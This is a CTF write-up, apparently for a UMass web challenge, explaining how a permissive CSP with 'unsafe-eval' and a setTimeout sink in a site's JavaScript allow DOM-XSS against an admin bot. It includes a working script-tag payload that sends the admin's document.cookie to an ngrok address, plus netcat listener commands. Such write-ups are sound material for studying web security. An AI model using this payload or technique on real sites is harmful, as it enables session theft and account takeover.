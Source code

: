 # Code-review and Vuln

In `main.py`, CSP is returning in response header from add_resp_headers() function.

and it running `/review/essay` endpoint. so, in `main.py`, we can see the our inputed data  in `/register` go to `bot.py` or admin bot. in `bot.py`, we can see that admin will go to `/review/essay` and check our inputed string. so, we can clearly see that we have to stole the cookie from admin browser to go to `/join`, got the flag. But not so easy though.

First, what type of xss is possible? Well, DOM-XSS can happen in `essay` path. (**not in email**). Why? cause in `essay_checker.html`, we can see the in `essay` path, he used `eassy|safe`. if you familar with safe, you can know that safe is used to return the user-input as a string (**i guess it can prevent the reflected-xss**) [what-is-Safe-in-djangos](https://stackoverflow.com/questions/4056883/when-should-i-use-escape-and-safe-in-djangos-template-system)

But, `safe` can't protect DOM-XSS, but problem is that CSP. let analytics the CSP with google csp auditor. When we paste the CSP script, audior show that this CSP is not safe and can leads to DOM-based xss. Cause of `script-src 'self' 'unsafe-eval'`

```
'unsafe-eval' allows the execution of code injected into DOM APIs such as eval().
```

So, We know now that we can do DOM-xss, but not fully.(**not freely**). To perform the DOM-based-xss in this site by passing the csp, we need to call a DOM-API for our xss (**script**). 

Luckily, there is one js file `/static/js/thing.js` that use the DOM-API. (**DOMContentLoaded**) -> `Our input will be fully loaded as HTML in browser`. Also, do you notice something in it? well, if know js properly you will. Cause he just write a waste of line in file, actually he can `console.log(iloveumass)`. but he used `setTimeOut()` sink. this function can leads to js injection if user can conrtoll it. And, We can controll it by xss by bypassing the csp.

# Plan
So, we can Steal admin's cookie by DOM-XSS and go to `/join` by the leaked admin's cookie. and we can get flag. 

i setup ngrok and listener:
```
./ngrok http 9999
nc -lnvp 9999
```

# Payload:
```
<script id='debuger' src="/static/js/thing.js" data-iloveumass="something');document.location.href=`http://6122-210-14-97-178.ngrok.io/?cookie=`%2bdocument.cookie;//"></script>
```


What this payload do is we closed the `console.log` function from `thing.js` with `');` (**single quote and open-bracket**) first and then call the `id` and `src` with same from `register.html`(**but remember that our xss is excuted on eassy_checker.html `/review/essay`**)

Then, we set the `document.location.href` property to send the `document.cookie` object from the admin browser to our ngrok (**web-hook**) server. Then we have to set the `//` behind the payload to make the everything comment in the line behind of it. (**So, our payload can excute properly**). 

So, Submit it on essay path in `/register` and wait 3 seconds and auth cookie have arrived to our ngrok server.

# Takeaway
If you are doing xss on site, pay attention to all js files of it and also console if your friend.

`syntax` is really weird and browser is strange all time :)

# Resources
https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-xss#dom-vulnerabilities

https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-xss#sinks-2

# Thanks
Thank to CTF organizer and author of this chall. really cool and give a lot of knowledge.


